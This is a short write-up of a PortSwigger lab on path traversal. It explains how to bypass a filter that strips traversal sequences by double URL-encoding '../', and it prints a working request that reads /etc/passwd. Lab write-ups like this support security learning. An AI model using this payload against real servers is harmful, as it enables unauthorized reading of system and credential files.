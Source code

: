 # File path traversal, traversal sequences stripped with superfluous URL-decode | Dec 12, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode), you'll learn: File path traversal, traversal sequences stripped with superfluous URL-decode! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application blocks input containing [path traversal](https://portswigger.net/web-security/file-path-traversal) sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Directory-Traversal/DT-4/images/Pasted%20image%2020221212021236.png)

**In the previous labs, we found that there is a file path traversal vulnerability in the display of product images:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Directory-Traversal/DT-4/images/Pasted%20image%2020221212021340.png)

**Also, in the lab background, it said:**

> The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

**To bypass that, we can use double URL encoding:**

**To do so, I'll use [CyberChef](https://gchq.github.io/CyberChef/) to do URL encoding:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Directory-Traversal/DT-4/images/Pasted%20image%2020221212021554.png)

**Now, we can use `%252E%252E%252F` as `../`:**
```
# Before URL encoded
/image?filename=../../../etc/passwd

# After double URL encoded
/image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252F/etc/passwd
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Directory-Traversal/DT-4/images/Pasted%20image%2020221212021658.png)

# What we've learned:

1. File path traversal, traversal sequences stripped with superfluous URL-decode